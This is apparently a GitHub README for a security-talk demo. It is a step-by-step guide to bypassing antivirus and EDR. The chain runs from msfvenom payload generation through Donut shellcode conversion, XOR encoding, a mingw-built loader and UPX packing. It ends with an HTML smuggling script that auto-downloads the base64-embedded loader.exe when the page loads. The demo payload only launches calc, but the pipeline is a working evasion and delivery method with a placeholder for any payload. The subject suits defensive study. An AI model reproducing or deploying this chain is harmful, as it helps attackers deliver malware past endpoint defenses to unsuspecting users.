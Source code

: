 
# html-smuggling-edr-bypass

## 🧠 Description

This project demonstrates how to use **HTML Smuggling** as an evasion technique to bypass **Antivirus (AV)** and **Endpoint Detection and Response (EDR)** solutions. Originally presented at *Leiria Tech Talks*, this walkthrough covers payload generation, shellcode transformation, in-memory execution, and delivery via a web browser using HTML Smuggling techniques.

## 📑 Table of Contents

- [Description](#-description)
- [Table of Contents](#-table-of-contents)
- [Prerequisites](#-prerequisites)
- [Step-by-Step Guide](#-step-by-step-guide)
- [References](#-references)
- [Credits](#-credits)

## 🔧 Prerequisites

- Linux-based environment
- `msfvenom`
- [`donut`](https://github.com/TheWover/donut)
- `python3`
- `mingw-w64`
- `UPX`
- Modern web browser (Chrome, Edge)

## 🚀 Step-by-Step Guide

### 1. Generate EXE Payload

```bash
msfvenom -p windows/exec CMD=calc.exe -f exe -o calc_payload.exe
```

### 2. Convert EXE to Shellcode using Donut

```bash
donut -i calc_payload.exe -f 1 -o donut_payload.bin -z 1 -e 3 -b 3
```

### 3. XOR Encode the Shellcode

Run the Python script:

```bash
python3 xor_donut.py
```

### 4. Convert Shellcode to C Header

```bash
xxd -i shellcode_xored.bin > shellcode.h
```

### 5. Build the Loader in C

Compile with `mingw` for 32-bit systems:

```bash
i686-w64-mingw32-gcc loader.c -o loader.exe -m32 -Os -s -fno-ident -Wno-write-strings
```

### 6. Compress the Loader with UPX

```bash
upx --ultra-brute loader.exe
```

### 7. Prepare for HTML Smuggling

Encode the binary to Base64:

```bash
base64 -w 0 loader.exe > loader
```

### 8. Build the HTML Smuggling Page

Use the provided `index.html` as a template. This file includes a complete HTML smuggling example with a styled interface and embedded Base64 execution logic.

Replace the placeholder content in the script with your Base64-encoded payload (from step 7).

```html
<script>
function base64ToArrayBuffer(base64) {
  var binary_string = window.atob(base64);
  var len = binary_string.length;
  var bytes = new Uint8Array(len);
  for (var i = 0; i < len; i++) {
    bytes[i] = binary_string.charCodeAt(i);
  }
  return bytes.buffer;
}

var file = "YOUR_BASE64_HERE";  // Replace this with your base64-encoded loader
let blob = new Blob([base64ToArrayBuffer(file)]);
let a = document.createElement("a");
a.href = URL.createObjectURL(blob);
a.download = "loader.exe";
a.click();
</script>
```

## 📚 References

- [Microsoft Security Blog – HTML Smuggling](https://www.microsoft.com/en-us/security/blog/2021/11/11/html-smuggling-surges-highly-evasive-loader-technique-increasingly-used-in-banking-malware-targeted-attacks/)
- [Donut Shellcode Generator](https://github.com/TheWover/donut)

## 👨‍💻 Credits

Presented by: **Milton Silva**  
Security Researcher 
[LinkedIn](https://www.linkedin.com/in/milton-araujo)
